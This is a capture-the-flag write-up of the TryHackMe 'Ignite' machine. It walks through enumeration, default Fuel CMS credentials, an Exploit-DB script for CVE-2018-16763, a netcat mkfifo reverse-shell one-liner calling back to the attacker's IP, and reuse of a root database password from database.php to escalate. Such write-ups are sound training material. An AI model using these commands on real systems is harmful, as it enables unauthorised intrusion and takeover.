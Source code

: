 ```yaml
---
title: "Ignite"
date: 2022-09-20T16:00:31+01:00
draft: false
categories:
  - TryHackMe
---
```


{{< post-img src="ignite.png" alt="ignite" style="width: 200px;" >}}

## Enumeration

```bash
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry
|_/fuel/
| http-methods:
|_  Supported Methods: HEAD OPTIONS

```

```bash
0                       [Status: 200, Size: 16595, Words: 770, Lines: 232]
.htaccess               [Status: 403, Size: 296, Words: 22, Lines: 12]
assets                  [Status: 301, Size: 313, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 296, Words: 22, Lines: 12]
.hta                    [Status: 403, Size: 291, Words: 22, Lines: 12]
home                    [Status: 200, Size: 16595, Words: 770, Lines: 232]
index.php               [Status: 200, Size: 16595, Words: 770, Lines: 232]
index                   [Status: 200, Size: 16595, Words: 770, Lines: 232]
robots.txt              [Status: 200, Size: 30, Words: 3, Lines: 2]
server-status           [Status: 403, Size: 300, Words: 22, Lines: 12]
```

Well only port 80 is open...we know its the website enumeration or nothing

`Fuel CMS version 1.4`

That was in plain sight..wait they literally show the CMS installation documentation

```bash
To access the FUEL admin, go to:
http://10.10.74.189/fuel
User name: admin
Password: admin (you can and should change this password and admin user information after logging in)
```
yeah actually the default credentials work

In dashboard I tried to create a page with php shellcode but I couldnt access it

````bash
There is an updated view file located at
/var/www/html/fuel/application/views/home.php.
Would you like to upload it into the body of your page (if available)?
````

I tried to upload too but many php extension variants are not allowed

Let's just search an exploit then
We found `CVE-2018-16763`
there were many exploitdb scripts for that but the 3rd exploit was the best
It was for python3 so I chose that one as `50477.py`
The script just takes the baseurl as argument

```bash
└──╼ $python 50477.py -u http://10.10.140.103
[+]Connecting...
Enter Command $id
systemuid=33(www-data) gid=33(www-data) groups=33(www-data)
```
After playing with basic commands I can spawn a netcat shell with this payload

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.226.203 2311 >/tmp/f
```

Then I get access on my listenner

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
I get simple python tty before grabbing first flag

```bash
www-data@ubuntu:/home/www-data$ cat flag.txt
cat flag.txt

```

## Privilege Escalation

this part was not too hard because I knew after reading the website documentation
And as there is no real user on machine anyway its all about the CMS installation
I knew I would check for php config files

```text
Install the FUEL CMS database by first creating the database in MySQL and then importing the fuel/install/fuel_schema.sql file.
After creating the database, change the database configuration found in fuel/application/config/database.php to include your hostname (e.g. localhost), username, password and the database
to match the new database you created.
```

We go where the file is and read it

```bash
www-data@ubuntu:/var/www/html/fuel/application/config$ cat database.php
cat database.php
<?php
defined('BASEPATH') OR exit('No direct script access allowed');

/*
 * | -------------------------------------------------------------------
 * | DATABASE CONNECTIVITY SETTINGS
 * | -------------------------------------------------------------------
 * | This file will contain the settings needed to access your database.
 * |
 * | For complete instructions please consult the 'Database Connection'
 * | page of the User Guide.
 * |
 * | -------------------------------------------------------------------
 * | EXPLANATION OF VARIABLES
 * | -------------------------------------------------------------------
 * |
 * |       ['dsn']      The full DSN string describe a connection to the database.
 * |       ['hostname'] The hostname of your database server.
 * |       ['username'] The username used to connect to the database
 * |       ['password'] The password used to connect to the database
 * |       ['database'] The name of the database you want to connect to
 * |       ['dbdriver'] The database driver. e.g.: mysqli.
 * |                       Currently supported:
 * |                                cubrid, ibase, mssql, mysql, mysqli, oci8,
 * |                                odbc, pdo, postgre, sqlite, sqlite3, sqlsrv
 * |       ['dbprefix'] You can add an optional prefix, which will be added
 * |                                to the table name when using the  Query Builder class
 * |       ['pconnect'] TRUE/FALSE - Whether to use a persistent connection
 * |       ['db_debug'] TRUE/FALSE - Whether database errors should be displayed.
 * |       ['cache_on'] TRUE/FALSE - Enables/disables query caching
 * |       ['cachedir'] The path to the folder where cache files should be stored
 * |       ['char_set'] The character set used in communicating with the database
 * |       ['dbcollat'] The character collation used in communicating with the database
 * |                                NOTE: For MySQL and MySQLi databases, this setting is only used
 * |                                as a backup if your server is running PHP < 5.2.3 or MySQL < 5.0.7
 * |                                (and in table creation queries made with DB Forge).
 * |                                There is an incompatibility in PHP with mysql_real_escape_string() which
 * |                                can make your site vulnerable to SQL injection if you are using a
 * |                                multi-byte character set and are running versions lower than these.
 * |                                Sites using Latin-1 or UTF-8 database character set and collation are unaffected.
 * |       ['swap_pre'] A default table prefix that should be swapped with the dbprefix
 * |       ['encrypt']  Whether or not to use an encrypted connection.
 * |
 * |                       'mysql' (deprecated), 'sqlsrv' and 'pdo/sqlsrv' drivers accept TRUE/FALSE
 * |                       'mysqli' and 'pdo/mysql' drivers accept an array with the following options:
 * |
 * |                               'ssl_key'    - Path to the private key file
 * |                               'ssl_cert'   - Path to the public key certificate file
 * |                               'ssl_ca'     - Path to the certificate authority file
 * |                               'ssl_capath' - Path to a directory containing trusted CA certificats in PEM format
 * |                               'ssl_cipher' - List of *allowed* ciphers to be used for the encryption, separated by colons (':')
 * |                               'ssl_verify' - TRUE/FALSE; Whether verify the server certificate or not ('mysqli' only)
 * |
 * |       ['compress'] Whether or not to use client compression (MySQL only)
 * |       ['stricton'] TRUE/FALSE - forces 'Strict Mode' connections
 * |                                                       - good for ensuring strict SQL while developing
 * |       ['ssl_options'] Used to set various SSL options that can be used when making SSL connections.
 * |       ['failover'] array - A array with 0 or more data for connections if the main should fail.
 * |       ['save_queries'] TRUE/FALSE - Whether to "save" all executed queries.
 * |                               NOTE: Disabling this will also effectively disable both
 * |                               $this->db->last_query() and profiling of DB queries.
 * |                               When you run a query, with this setting set to TRUE (default),
 * |                               CodeIgniter will store the SQL statement for debugging purposes.
 * |                               However, this may cause high memory usage, especially if you run
 * |                               a lot of SQL queries ... disable this to avoid that problem.
 * |
 * | The $active_group variable lets you choose which connection group to
 * | make active.  By default there is only one group (the 'default' group).
 * |
 * | The $query_builder variables lets you determine whether or not to load
 * | the query builder class.
 */
$active_group = 'default';
$query_builder = TRUE;

$db['default'] = array(
	'dsn'   => '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => 'mememe',
	'database' => 'fuel_schema',
	'dbdriver' => 'mysqli',
	'dbprefix' => '',
	'pconnect' => FALSE,
	'db_debug' => (ENVIRONMENT !== 'production'),
					   'cache_on' => FALSE,
					   'cachedir' => '',
					   'char_set' => 'utf8',
					   'dbcollat' => 'utf8_general_ci',
					   'swap_pre' => '',
					   'encrypt' => FALSE,
					   'compress' => FALSE,
					   'stricton' => FALSE,
					   'failover' => array(),
					   'save_queries' => TRUE
);

// used for testing purposes
if (defined('TESTING'))
{
	@include(TESTER_PATH.'config/tester_database'.EXT);
}
```

In the last parts of the file we can see the database is setup with root credentials

I guess the credentials work for the system so I use them to go root

```bash
www-data@ubuntu:/var/www/html/fuel/application/config$ su root
su root
Password: mememe

root@ubuntu:/var/www/html/fuel/application/config#

root@ubuntu:~# cat root.txt
cat root.txt
```

And the fire is lit!

I wonder how popular CodeIgniter still is

